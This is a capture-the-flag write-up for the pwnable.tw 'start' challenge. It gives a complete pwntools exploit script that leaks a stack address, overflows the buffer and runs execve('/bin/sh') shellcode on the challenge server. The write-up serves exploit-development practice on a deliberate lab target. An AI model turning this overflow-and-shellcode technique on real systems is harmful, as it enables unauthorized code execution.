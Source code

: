 NX没开，所以可以在栈上执行代码

### writeup

1. Launch ./start
2. Overflow and output esp address with “0x8048087”(mov ecx,esp) 用write函数输出栈地址
3. Add 0x14 + shellcode
4. Execute shellcode

```py
# coding: utf-8
from pwn import *

# set target environment
context.arch      = 'i386'
context.os        = 'linux'
# context.word_size = 32

# context.log_level = "debug" # 打印调试信息
# context.log_level = "error" # 打印错误信息, 此时很多回显就看不到了


debug=0
if debug:
    p=process('./start')
    # p=process('',env={'LD_PRELOAD':'./libc.so'}) # 绑定libc
    context.log_level='debug'
    gdb.attach(p)
else:
    p=remote('chall.pwnable.tw', 10000)

# generate shellcode
shell_code = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

# stage 1 : leak stack address
log.info('Pwning start:')
p.recvuntil(':')
payload_1 = b'A' * 0x14 + p32(0x08048087)
p.send(payload_1)

# save addr
esp_addr = u32(p.recv(4))

# stage 2
payload_2 = b'a' * 0x14   # write函数的参数
payload_2 += p32(esp_addr +0x14)  # esp+0x14 是ret_addr的位置
payload_2 += shell_code    # 

p.send(payload_2)

p.interactive()

```
